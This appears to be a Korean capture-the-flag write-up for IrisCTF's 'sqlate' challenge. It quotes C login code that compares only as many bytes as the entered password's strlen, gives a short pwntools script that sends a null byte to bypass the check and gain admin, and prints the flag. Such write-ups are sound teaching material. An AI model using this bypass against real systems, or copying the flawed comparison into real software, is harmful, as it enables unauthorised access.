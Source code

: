 문제의 코드는 엄청 길지만 난이도가 낮은것으로 보아 코드 전체를 이해하는 것 보다 슥 내리면서 취약해 보이는 함수를 먼저 찾았다.

아래의 345 ~ 363 line이 의심스러웠다.
```c
void action_sys() {
    system("/usr/bin/cat flag");
}

void action_login() {
    // Currently only admin login
    read_to_buffer("Password?");
    unsigned long length = strlen(line_buffer);
    for (unsigned long i = 0; i < length && i < 512; i++) {
        if (line_buffer[i] != admin_password[i]) {
            printf("Wrong password!\n");
            return;
        }
    }

    strcpy(current_user.username, "admin");
    current_user.userId = 0;
    current_user.flags = 0xFFFFFFFF;
}
```
admin password와 입력한 password의 길이만큼 strlen 함수를 통해서 비교를한다.
strlen 함수가 0을 반환하면 for문이 작동하지 않아 admin으로 권한 상승이 가능하다.


# payload
```python
from pwn import *

p = process("./vuln")
p = remote("sqlate.chal.irisc.tf", 10000)

p.sendline("5")
p.send('\x00')
p.interactive()
```
### flag
```
irisctf{classic_buffer_issues}
```
